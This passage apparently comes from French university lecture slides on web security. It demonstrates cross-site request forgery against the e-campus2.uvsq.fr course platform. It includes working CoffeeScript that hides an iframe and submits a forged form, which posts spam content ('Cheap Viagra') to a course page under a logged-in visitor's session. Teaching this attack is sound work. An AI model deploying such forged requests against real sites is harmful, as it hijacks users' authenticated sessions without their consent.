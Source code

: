 - Le browser de l'utilisateur, en voulant télécharger l'image,
déclanche un **transfert d'argent authentifié**.

</section>
<section>

## Démo CSRF : e-campus 2

1. Connectez-vous à <http://e-campus2.uvsq.fr/>,
2. Allez vers la
   [page du cours](http://e-campus2.uvsq.fr/cours/lucadefe/Cours.lucadefe.2012-01-04.1946).
3. Maintenant, supposons que vous visitiez un site au hasard (par ex.,
   ce site !!!), contenant cet `<iframe>` (caché par
   [`display:none`](javascript:){:.hide-frame}):

<iframe id="ecampus" style="width:90%;height:4em;margin:auto;display:block">
</iframe>

<style>
#ecampus.fade-out { opacity: 0 }
#ecampus, #ecampus.fade-out {
    transition: opacity 1s;
    -webkit-transition: opacity 1s;
}
</style>

<script type="text/coffeescript">
form = Element.prototype.append.call $('#ecampus').contentDocument.body, 'form#ecampus-form'
form.method = 'GET'
form.action = 'http://e-campus2.uvsq.fr/cours/lucadefe/Cours.lucadefe.2012-01-04.1946/cours_plan_form'
form.append = Element.prototype.append.bind(form)

data =
    'typeElement'      : 'TexteLibre',
    'titreElement'     : 'Cheap Viagra',
    'createurElement'  : 'Hacker',
    'form.submitted'   : '1',
    'form.button.save' : 'label_save'

for n, v of data
    i = form.append 'input'
    i.type = 'text'
    i.name = n
    i.value = v

i = form.append 'input'
i.type = 'submit'
i.value = 'Submit'

$('#csrf').onclick = () -> form.submit()

for t in $$('.hide-frame')
    t.onclick = () ->
        $('#ecampus').classList.toggle 'fade-out'
</script>

